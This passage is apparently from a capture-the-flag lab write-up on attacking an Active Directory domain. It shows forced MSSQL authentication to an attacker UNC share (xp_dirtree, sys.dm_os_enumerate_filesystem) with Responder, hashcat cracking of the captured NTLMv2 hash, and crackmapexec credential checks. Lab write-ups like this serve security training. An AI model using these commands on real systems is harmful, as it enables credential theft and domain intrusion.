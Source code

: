 ```bash
mssqlclient.py klendathu.vl/'zim':'REDACTED'@'10.10.243.198' -windows-auth
```
At this time of the chain, I tried many things but nothing worked since I did not have the rights for what i tried, some things (not all) that i tried here :

```console
Enable xp_cmdshell
xp_dirtree "\\10.8.2.163\toto"
exec master.dbo.xp_dirtree "\\10.8.2.163\toto"
EXEC master..xp_subdirs "\\10.8.2.163\toto"
EXEC master..xp_fileexist "\\10.8.2.163\toto"
Impersonate SA or someone that have more rights
```
But i found this [https://www.brentozar.com/archive/2017/07/sql-server-2017-less-xp_cmdshell/](https://www.brentozar.com/archive/2017/07/sql-server-2017-less-xp_cmdshell/)

So i set a responder and i ran this :

```bash
SELECT * FROM sys.dm_os_enumerate_filesystem('\\10.8.2.163', 'toto')
```
![alt text](../assets/image_klendathu/2er.png)

Ok, now let's try to crack it :

```bash
hashcat -m 5600 -a 0 hash_2.txt /usr/share/wordlists/rockyou.txt
```
Now try creds : 

```bash
cme smb 10.10.243.197 -u 'Rasczak' -p 'REDACTED'

SMB         10.10.243.197   445    DC1              [*] Windows 10.0 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:False)
SMB         10.10.243.197   445    DC1              [+] KLENDATHU.VL\Rasczak:REDACTED

cme ldap 10.10.243.197 -u 'Rasczak' -p 'REDACTED'

SMB         10.10.243.197   445    DC1              [*] Windows 10.0 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:False)
LDAP        10.10.243.197   389    DC1              [+] KLENDATHU.VL\Rasczak:REDACTED
```
## Silver Ticket + Shell with SeImpersonatePrivilege
